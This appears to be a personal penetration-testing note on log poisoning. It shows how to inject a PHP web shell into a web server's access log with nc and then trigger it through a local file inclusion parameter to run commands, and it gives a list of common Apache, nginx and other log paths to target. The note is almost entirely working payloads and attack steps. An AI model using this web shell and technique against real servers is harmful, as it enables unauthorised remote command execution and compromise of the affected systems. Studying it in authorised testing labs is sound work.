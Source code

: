 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Connect with nc and poison the log:

```bash
nc -nv $TARGET 80
```

```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

What the log file looks like:
![[Pasted image 20220506100915.png]]

```bash
http://$TARGET/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

Common log locations:
Windows xampp
`c:\xampp\apache\logs\access.log`

Linux locations
`/var/log/apache2/access.log`
`/var/log/apache/access.log`
`/var/log/apache/error.log`
`/var/log/apache2/access.log`
`/var/log/apache2/error.log`
`/var/log/nginx/access.log`
`/var/log/nginx/error.log`
`/var/log/vsftpd.log`
`/var/log/sshd.log`
`/var/log/mail`
`/var/log/httpd/error_log`
`/usr/local/apache/log/error_log`
`/usr/local/apache2/log/error_log`